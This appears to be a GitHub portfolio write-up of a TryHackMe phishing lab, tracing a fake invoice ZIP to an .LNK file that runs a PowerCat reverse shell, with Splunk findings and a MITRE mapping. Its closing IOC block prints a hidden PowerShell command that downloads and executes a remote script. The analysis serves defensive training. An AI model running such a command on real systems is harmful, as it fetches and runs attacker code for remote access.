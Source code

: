 # 📧 Phishing Investigation – PowerCat Reverse Shell via .LNK

This project documents my hands-on investigation of a simulated phishing alert from TryHackMe. The scenario involved a malicious ZIP file disguised as an invoice, ultimately leading to the discovery of a PowerShell reverse shell payload using **PowerCat**.

---

## 🕵️‍♂️ Summary

- **Data Source**: Email
- **Recipient**: Michael Ascot (CEO)
- **Attachment**: `ImportantInvoice-Febrary.zip`
- **Host**: 3450
- **Malware Type**: Reverse Shell (PowerCat)
- **Tools Used**: PowerShell, VirusTotal, TryDetectThis, Splunk

---

## 🧪 Steps Taken

1. **Initial Triage**
   - Identified misspellings in the subject and attachment (`Invioce`, `Febrary`)
   - Flagged as suspicious due to social engineering and poor grammar  
   ![Phishing Email Screenshot](path/to/phis![Screenshot 2025-05-11 113143](https://github.com/user-attachments/assets/200e1cc3-986e-4c9f-8e02-e2fd1bdc6327)
hing-email.png)

2. **File Extraction & Analysis**
   - Extracted `.zip` archive: contained a disguised `.LNK` (shortcut) file
   - Used PowerShell's `more` function to read contents
   - Discovered embedded PowerShell script executing **PowerCat**  
   ![LNK File Contents](path/to/lnk-fi![Screenshot 2025-05-11 100749](https://github.com/user-attachments/assets/99b840c1-ba7a-45dc-bb6c-ba308f38db05)
le.png)

3. **Hash Reputation Check**
   - Generated file hashes using `TryDetectThis`
   - No results found on **VirusTotal**  
   ![Hash Analysis](path/to/hash-analy![Screenshot 2025-05-11 110500](https://github.com/user-attachments/assets/43762438-a1c9-4a34-9607-7902de69d9f7)
sis.png)

4. **Splunk Correlation**
   - Host `3450` (assigned to CEO) was searched via Splunk
   - Found matching PowerShell script activity in logs – confirmed execution  
   ![Splunk Logs](path/to/splunk-log![Screenshot 2025-05-11 105254](https://github.com/user-attachments/assets/54a775a2-cfc2-47d8-bbaf-9f17de508e0a)
s.png)

---

## 🔍 Key Findings

- **Threat Vector**: Phishing email with compressed shortcut file
- **Payload**: PowerCat reverse shell enabling remote access
- **Persistence Risk**: Bypasses some AV tools due to use of native PowerShell

---

## 📚 MITRE ATT&CK Mapping

| Technique ID | Technique                  |
|--------------|----------------------------|
| T1566.001    | Spearphishing Attachment   |
| T1204        | User Execution             |
| T1027        | Obfuscated Files or Info   |
| T1059.001    | PowerShell                 |
| T1095        | Non-Application Layer Protocol (reverse shell) |

---

## 🚧 Lessons Learned

- File extensions can be misleading – always inspect deeply
- PowerShell abuse is still common and effective
- Endpoint visibility (via Splunk) is critical for full detection
- Reverse shells can be hidden in seemingly simple attachments

---

## 🛡️ Skills Demonstrated

- Email threat analysis
- File hash generation and malware triage
- PowerShell script inspection
- Host-level investigation using Splunk
- Threat hunting and IOC identification

---

## 📎 Sample IOC (Indicator of Compromise)

```text
Filename: ImportantInvoice-Febrary.zip
Extracted: disguised_invoice.lnk
PowerShell command: powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://malicious[.]site/shell.ps1')"
